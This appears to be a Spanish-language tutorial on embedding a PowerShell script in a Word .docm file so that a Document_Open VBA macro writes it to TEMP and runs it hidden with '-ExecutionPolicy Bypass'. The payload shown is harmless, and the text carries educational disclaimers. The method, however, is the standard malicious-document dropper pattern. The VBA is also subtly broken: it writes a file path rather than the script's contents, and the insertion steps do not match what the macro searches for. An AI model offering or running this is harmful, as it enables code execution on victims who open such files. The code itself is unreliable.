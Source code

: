 # Cómo Incrustar y Ejecutar un Script desde un Documento de Word

Este tutorial explica cómo incrustar un script en un documento de Word de manera que el archivo `.docm` contenga tanto el contenido de Word como el script, y luego ejecutar el script al abrir el documento.

**Advertencia:** Este procedimiento debe usarse únicamente en un entorno controlado con fines educativos. No se debe utilizar de manera maliciosa ni en sistemas no autorizados.

## Pasos para Incrustar y Ejecutar un Script

### 1. Crear el Script

Primero, crea el script que deseas incrustar en el documento. Por ejemplo, puedes usar un script de PowerShell:

```powershell
# Crear un archivo PowerShell llamado 'script.ps1'
echo "Write-Host '¡Sistema comprometido!'" > script.ps1
```
## 2. Crear un Documento de Word con una Macro

### Abre Microsoft Word

1. Inicia Microsoft Word y crea un nuevo documento en blanco.

### Accede a las Macros

1. Ve a la pestaña **"Desarrollador"**. Si no ves esta pestaña, actívala en **"Archivo"** > **"Opciones"** > **"Personalizar cinta de opciones"** y marca **"Desarrollador"**.

### Crear una Macro

1. Haz clic en **"Macros"** en la pestaña Desarrollador y luego en **"Grabar macro"**.
2. Asigna un nombre a la macro (por ejemplo, `ExtractAndRunScript`) y asegúrate de que el almacenamiento sea **"Este documento"**.

### Escribir el Código de la Macro

1. Haz clic en **"Visual Basic"** en la pestaña Desarrollador para abrir el Editor de VBA.
2. En el Editor de VBA, encuentra el módulo de la macro que acabas de crear (`ThisDocument`).
3. Sustituye el contenido con el siguiente código para extraer y ejecutar el script:

    ```vba
    Private Sub Document_Open()
        Dim shp As Shape
        Dim fs As Object
        Dim tempPath As String

        ' Define la ruta temporal para el script
        tempPath = Environ("TEMP") & "\script.ps1"
        
        ' Recorre todos los objetos de la forma en el documento
        For Each shp In ActiveDocument.Shapes
            If shp.Type = msoLinkedPicture Or shp.Type = msoPicture Then
                If shp.LinkFormat.SourceFullName Like "*.ps1" Then
                    ' Copia el archivo al directorio temporal
                    shp.Select
                    Selection.CopyAsPicture
                    Set fs = CreateObject("Scripting.FileSystemObject")
                    fs.CreateTextFile tempPath, True
                    Open tempPath For Binary Access Write As #1
                    Put #1, , shp.LinkFormat.SourceFullName
                    Close #1
                    ' Ejecuta el script
                    Shell "powershell.exe -ExecutionPolicy Bypass -File """ & tempPath & """", vbHide
                    Exit Sub
                End If
            End If
        Next shp
    End Sub
    ```

    **Explicación:**
    - `Document_Open()`: Ejecuta cuando se abre el documento.
    - Recorre todas las formas en el documento buscando imágenes o archivos vinculados.
    - Copia el archivo de script a una ubicación temporal y lo ejecuta usando PowerShell.

### Insertar el Script en el Documento

1. Ve a la pestaña **"Insertar"** y selecciona **"Objeto"** > **"Texto del archivo"**.
2. Selecciona el archivo del script (por ejemplo, `script.ps1`) y haz clic en **"Insertar"**.
3. Esto incrustará el script en el documento de Word como un objeto.

### Guardar el Documento con la Macro

1. Guarda el documento como un archivo habilitado para macros (`.docm`). Usa **"Guardar como"** y selecciona **"Documento habilitado para macros de Word (*.docm)"**.

## Consideraciones Importantes

- **Seguridad y Ética:** El uso de macros para ejecutar scripts debe realizarse en un entorno controlado y con fines educativos. Asegúrate de tener permisos para realizar estas pruebas y no distribuyas estos documentos sin el consentimiento adecuado.

- **Configuración de Seguridad en Word:** Microsoft Word tiene configuraciones de seguridad para prevenir la ejecución de macros automáticamente. Para fines de prueba, asegúrate de que las macros estén habilitadas en el entorno donde se va a realizar la prueba.

## Ejemplo Final

Cuando el usuario abra el documento `.docm`, la macro se ejecutará y buscará el script incrustado en el documento. Luego, lo extraerá y lo ejecutará automáticamente.
